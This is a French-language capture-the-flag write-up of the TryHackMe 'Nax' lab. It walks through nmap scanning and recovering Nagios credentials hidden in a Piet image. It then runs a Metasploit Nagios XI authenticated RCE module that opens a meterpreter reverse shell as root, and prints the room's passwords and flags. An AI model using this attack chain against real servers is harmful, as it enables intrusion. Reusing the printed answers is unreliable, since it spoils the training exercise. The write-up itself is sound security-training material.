




## Nax ##

# Task 1 Flag #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.172.212 nax.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A nax.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 15:17 CEST
Nmap scan report for nax.thm (10.10.172.212)
Host is up (0.082s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|   256 af:67:7d:24:e5:95:f4:44:72:d1:0c:39:8d:cc:21:15 (ECDSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-03-23T23:42:04
|_Not valid after:  2030-03-21T23:42:04
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/ssl    Apache httpd (SSL-only mode)
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-03-24T00:14:58
|_Not valid after:  2030-03-22T00:14:58
| tls-alpn: 
|_  http/1.1
5667/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/25%OT=22%CT=1%CU=34964%PV=Y%DS=2%DC=T%G=Y%TM=6126439
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=106%GCD=1%ISR=10D%TI=Z%II=I%TS=8)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O
OS:3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host:  ubuntu.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   33.24 ms 10.9.0.1
2   90.44 ms nax.thm (10.10.172.212)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 159.54 seconds

```

Le scan de nmap nous indique quelques services :
Le SSH sur le port 22.   
Le SMTP sur le port 25.  
Le HTTP sur le port 80.   
Le ldap sur le port 389.   
Le HTTPS sur le port 443.
Un service inconnu sur le port 5667.  

**What hidden file did you find?**



Sur la page principale il un commentaire qui dit bienvenue sur le éléments et en dessous, il y a les symboles que quelques éléments périodique.   

A partir d'un tableau périodique trouvons les numéros atomique.  


Ag Hg Ta Sb Po Pd Hg Pt Lr
47 80 73 51 84 46 80 78 103

```bash
tim@kali:~/Bureau/tryhackme/write-up$ code='47 80 73 51 84 46 80 78 103'
tim@kali:~/Bureau/tryhackme/write-up$ for i in $code;do echo "ibase=10;obase=16;$i" | bc ;done | hex2raw 
/PI3T.PNg
```

On convertie le décimal en ascii on trouve le nom de l'image.  

La réponse est : PI3T.PNg 

**Who is the creator of the file?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://nax.thm/PI3T.PNg -nv
2021-08-25 15:55:32 URL:http://nax.thm/PI3T.PNg [982359/982359] -> "PI3T.PNg" [1]

tim@kali:~/Bureau/tryhackme/write-up$ exiftool PI3T.PNg 
ExifTool Version Number         : 12.16
File Name                       : PI3T.PNg
Directory                       : .
File Size                       : 959 KiB
File Modification Date/Time     : 2020:03:25 05:00:15+01:00
File Access Date/Time           : 2021:08:25 15:55:56+02:00
File Inode Change Date/Time     : 2021:08:25 15:55:32+02:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 990
Image Height                    : 990
Bit Depth                       : 8
Color Type                      : Palette
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Palette                         : (Binary data 768 bytes, use -b option to extract)
Transparency                    : (Binary data 256 bytes, use -b option to extract)
Artist                          : Piet Mondrian
Copyright                       : Piet Mondrian, tryhackme 2020
Image Size                      : 990x990
Megapixels                      : 0.980
```

On télécharge l'image.
On regarde les informations de l'image avec exiftool.
On trouve le créateur qui est : Piet Mondrian    

**If you get an error running the tool on your downloaded image about an unknown ppm format -- open it with gimp or another paint program and export to ppm format, and try again!**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ vim image.py 
tim@kali:~/Bureau/tryhackme/write-up$ cat image.py 
from PIL import Image

im = Image.open('PI3T.PNg')
im = im.convert('RGB')
im.mode
im.save('PI3T.ppm')

tim@kali:~/Bureau/tryhackme/write-up$ python3 image.py 
/usr/lib/python3/dist-packages/PIL/Image.py:962: UserWarning: Palette images with Transparency expressed in bytes should be converted to RGBA images
  warnings.warn(
```

On convertie l'image.    

**What is the username you found?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://www.bertnase.de/npiet/npiet-1.3f.c -nv
2021-08-25 16:12:37 URL:http://www.bertnase.de/npiet/npiet-1.3f.c [68150/68150] -> "npiet-1.3f.c" [1]

tim@kali:~/Bureau/tryhackme/write-up$ cc npiet-1.3f.c -o npiet-1.3f

tim@kali:~/Bureau/tryhackme/write-up$ ./npiet-1.3f PI3T.ppm 
nagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhW...
```

On télécharge un programme qui comprend le piet qui est un langage qui fonctionne avec les couleurs et les pixels de l'image.   

On le compile et  on l'éxecute pour interpreter le fichier image.  

On a comme réponse des identifiants.

Le nom d'utilisateur est : nagiosadmin   

**What is the password you found?**

Le mot de passe est : n3p3UQ&9BjLp4$7uhWdY   

**What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://nax.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 272]
/.htaccess            (Status: 403) [Size: 272]
/.htpasswd            (Status: 403) [Size: 272]
/cgi-bin/             (Status: 403) [Size: 272]
/index.html           (Status: 200) [Size: 1332]
/index.php            (Status: 200) [Size: 2968]
/javascript           (Status: 301) [Size: 307] [--> http://nax.thm/javascript/]
/nagios               (Status: 401) [Size: 454]                                 
/server-status        (Status: 403) [Size: 272]              
```

On trouve un répertoire s'appel nagios.    



On nous demande un mot de passe et nom.
On le met.  



On tombe sur une page qui nous indique que l'on est sur nagios core 4.4.2.  



On trouve une faille de sécurité avant les version 5.6.6 qui permet d'exécuter une commande à distance avec les droit roots.   

**After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfconsole -q
msf6 > search nagios xi exploit

Matching Modules
================

   #  Name                                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                                 ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_snmptrap_authenticated_rce              2020-10-20       excellent  Yes    Nagios XI 5.5.0-5.7.3 - Snmptrap Authenticated Remote Code Exection
   1  exploit/linux/http/nagios_xi_mibs_authenticated_rce                  2020-10-20       excellent  Yes    Nagios XI 5.6.0-5.7.3 - Mibs.php Authenticated Remote Code Exection
   2  exploit/linux/http/nagios_xi_chained_rce                             2016-03-06       excellent  Yes    Nagios XI Chained Remote Code Execution
   3  exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo         2018-04-17       manual     Yes    Nagios XI Chained Remote Code Execution
   4  exploit/linux/http/nagios_xi_magpie_debug                            2018-11-14       excellent  Yes    Nagios XI Magpie_debug.php Root Remote Code Execution
   5  exploit/unix/webapp/nagios_graph_explorer                            2012-11-30       excellent  Yes    Nagios XI Network Monitor Graph Explorer Component Command Injection
   6  exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Prior to 5.6.6 getprofile.sh Authenticated Remote Command Execution
   7  exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce      2020-12-19       excellent  Yes    Nagios XI Prior to 5.8.0 - Plugins Filename Authenticated Remote Code Exection
   8  auxiliary/scanner/http/nagios_xi_scanner                                              normal     No     Nagios XI Scanner
   9  exploit/unix/webapp/nagios3_history_cgi                              2012-12-09       great      Yes    Nagios3 history.cgi Host Command Execution


Interact with a module by name or index. For example info 9, use 9 or use exploit/unix/webapp/nagios3_history_cgi

msf6 > use 6
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > 

```

La réponse du site est : exploit\/linux\/http\/nagios_xi_authenticated_rce   

C'est la même que j'utilise mais comme l'exploit à été renommé il a changé de nom.    

```bash
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes signing the license agreement.
   PASSWORD                         yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)

msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD n3p3UQ&9BjLp4$7uhWdY
PASSWORD => n3p3UQ&9BjLp4$7uhWdY
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOSTS nax.thm
RHOSTS => nax.thm
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST 10.9.228.66
LHOST => 10.9.228.66
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.9.228.66:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.5.6
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012548 bytes) to 10.10.172.212
[*] Meterpreter session 1 opened (10.9.228.66:4444 -> 10.10.172.212:40108) at 2021-08-25 18:09:53 +0200
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > 

```

Configure l'exploit dans metasploit et le lance.  

**Compromise the machine and locate user.txt**

```bash
meterpreter > shell
Process 24293 created.
Channel 1 created.

id
uid=0(root) gid=0(root) groups=0(root)

ls /home
galand

cd /home/galand

cat user.txt
THM{84b17add1d72a9f2e99c33bc568ae0f1}

```

On demande un shell.   
On voit que l'on a les droits root.   
On lit le fichier user.txt dans le répertoire \/home\/galant\/.

La réponse est : THM{84b17add1d72a9f2e99c33bc568ae0f1}    

**Locate root.txt**

```bash
cat /root/root.txt
THM{c89b2e39c83067503a6508b21ed6e962}  
```

On trouve la réponse dans le fichier root.txt dans le répertoire root.    
La réponse est : THM{c89b2e39c83067503a6508b21ed6e962}    
